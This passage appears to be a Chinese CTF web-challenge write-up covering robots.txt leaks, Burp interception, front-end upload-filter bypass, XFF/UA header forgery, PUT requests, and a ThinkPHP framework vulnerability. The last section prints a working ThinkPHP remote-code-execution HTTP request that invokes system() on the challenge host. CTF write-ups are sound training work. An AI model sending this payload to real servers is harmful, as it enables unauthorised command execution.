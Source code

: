 - 考察robots文件泄露敏感信息，题目就是提示了

访问robots.txt得到surprise.php是不允许爬虫得到的

继续访问surprise.php，会发现当访问的时候会302重定向，所以我们可以使用bp拦截，从而得到flag

## 火箭头 					

抓包看header

## upload2 					

> 你还能上传吗？

- 考察文件上传前端检查的绕过

还是先上传give_me_flag.php，然后发现只能上传固定格式的文件，抓包修改绕过前端过滤，得到flag

## XFF&&UA

> XFF和UA被坏人抓走了，你能顺利渡过难关解救他们吗？只有他们有你想要的东西哦

- 考察XFF头伪造本地ip以及UA头的本质

先XFF伪造ip，然后改UA头伪造本地，得到flag

## 놓다 					

> 除了GET，POST，还有哪些请求方式呢？

- 考察put传参，旨在让大家知道除了get，post之外还有其他传参方式

bp抓包改传参方式，传message就行

## dGhpbmtwaHA=

> php最常见的框架，你不会不知道吧

- 考察以往的框架漏洞

网上随手找，都是exp

```
POST /index.php?s=captcha HTTP/1.1
Host: 43.138.40.212:5003
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 92

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=ls
```
